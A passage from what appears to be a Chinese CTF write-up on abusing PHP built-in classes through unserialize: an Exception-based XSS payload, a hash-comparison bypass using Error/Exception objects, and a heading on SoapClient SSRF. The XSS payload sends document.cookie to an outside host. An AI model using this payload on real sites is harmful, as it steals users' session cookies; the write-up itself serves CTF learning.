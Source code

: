 得到源码

```plain
<?php
$a = $_GET['yds_is_so_beautiful'];
echo unserialize($a);
```

只给了一个传参地方，根据题目名以及条件，这个时候就可以利用内置类打 Xss 了

```plain
<?php
$a=new Exception('<script>window.open("http://9f5ea2b6-a58d-4d22-82c7-eeb923f3d9a6.node5.buuoj.cn:81/"+document.cookie)</script>');
//一般 Xss 题目 flag 在 Cookie 里
echo urlencode(serialize($a));
```

[![](assets/1708675446-b25fb88da3ec49df3d77d9ead02a38ea.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240222121105-660e344e-d138-1.png)

## 绕过哈希比较

### Error 类

-   php7.0.0

### Exception 类

-   php5

这里我两个一起说了，原理都是一样的

示例：

```plain
<?php
$a = new Error("payload",1);$b = new Error("payload",2);
echo $a;
echo $b;
```

[![](assets/1708675446-f81c8160fef9ddecd62e4ae2f0f720da.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240222121111-699eb0ac-d138-1.png)

可以看到，输出结果是一样的，因此可以绕过哈希

# SoapClient：SSRF

